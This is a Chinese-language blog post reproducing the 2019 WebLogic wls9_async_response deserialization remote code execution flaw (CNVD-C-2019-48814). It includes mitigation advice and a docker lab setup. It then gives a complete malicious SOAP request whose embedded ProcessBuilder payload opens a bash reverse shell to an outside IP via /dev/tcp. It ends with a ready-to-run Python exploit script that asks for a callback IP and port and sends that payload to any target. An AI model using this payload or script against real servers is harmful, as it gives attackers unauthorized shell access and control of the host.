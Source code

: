 ```yaml
---
layout:     post
title:      Weblogic反序列化远程代码执行漏洞
subtitle:   Weblogic反序列化远程代码执行漏洞
date:       2019-06-28
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

  4月17日，国家信息安全漏洞共享平台（CNVD）公开了Weblogic反序列化远程代码执行漏洞，此漏洞存在于weblogic自带的wls9_async_response.war组件中，由于该war包在反序列化处理输入信息时存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，获取服务器权限，实现远程代码执行。

## 0x00 漏洞概述
**漏洞描述**
   该漏洞是由wls9_async_response组件导致，在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，未授权的情况下远程执行命令。部分版本WebLogic中默认包含的wls9_async_response包，主要是为WebLogic Server提供异步通讯服务。

**漏洞等级**：高危

**漏洞编号**：CNVD-C-2019-48814

**影响范围**
* Oracle WebLogic Server 10.*
* Oracle WebLogic Server 12.1.3
* 启用bea_wls9_async_response组件的所有Weblogic版本

**修复建议**
* 删除wls9_async_response的war包并重启webLogic；
* 通过访问策略控制禁止 /_async/* 路径的URL访问。

## 0x01 环境搭建
我使用的是docker，比较方便。

启动docker命令如下：
```
systemctl start docker 
```
创建docker-compose.yml，内容如下：
```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic
   ports:
    - "7001:7001"
```
启动测试环境命令如下：
```
docker-compose up -d
```
查看环境是否启动成功，命令如下：
![图片](../../../../img/CNVD-C-2019-48814-1.png)
## 0x02 复现漏洞
访问如下URL：
```
http://10.20.40.96:7001/_async/AsyncResponseService
```

![图片](../../../../img/CNVD-C-2019-48814-2.png)

通过burp suite repeater模块发送下面的POST数据包：
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 10.20.40.96:7001
Content-Length: 787
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.20.40.97/7777 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

![图片](../../../../img/CNVD-C-2019-48814-3.png)
最终成功反弹到了10.20.40.97上
![图片](../../../../img/CNVD-C-2019-48814-4.png)


## 0x03 python脚本
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
import requests
import sys


headers = {'content-type':'text/xml','User-Agent':'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50'}




def poc(target):
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r =requests.get(url,timeout=2)
        if r.status_code ==200:
            print("[ + ] " + target + '可能存在Weblogic反序列化远程代码执行漏洞!' )
        else:
            print("[ - ] " +target + "不存在漏洞！")
def exp(target):
    ip = input("反弹到哪个IP?")
    port = input("反弹到哪个端口?")
    payload = '''
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
    <soapenv:Header> 
    <wsa:Action>xx</wsa:Action>
    <wsa:RelatesTo>xx</wsa:RelatesTo>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
    </void>
    </array>
    <void method="start"/></void>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
    <asy:onAsyncDelivery/>
    </soapenv:Body></soapenv:Envelope>
    ''' % (ip, port)
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r = requests.post(url,headers=headers,data=payload,timeout=2)
        if r.status_code ==202:
            print("反弹成功！")




if __name__ == '__main__':
    target = sys.argv[1]
    action = sys.argv[2]
    if target != '':
        if action == '':
            exit()
        elif action == 'poc':
            poc(target)
        elif action == 'exp':
            exp(target)
```


效果图：
![图片](../../../../img/CNVD-C-2019-48814-5.png)
![图片](../../../../img/CNVD-C-2019-48814-6.png)
![图片](../../../../img/CNVD-C-2019-48814-7.png)

[Github下载地址](https://github.com/FiveAourThe/exploit-by-python/blob/master/Weblogic/Weblogic.py)



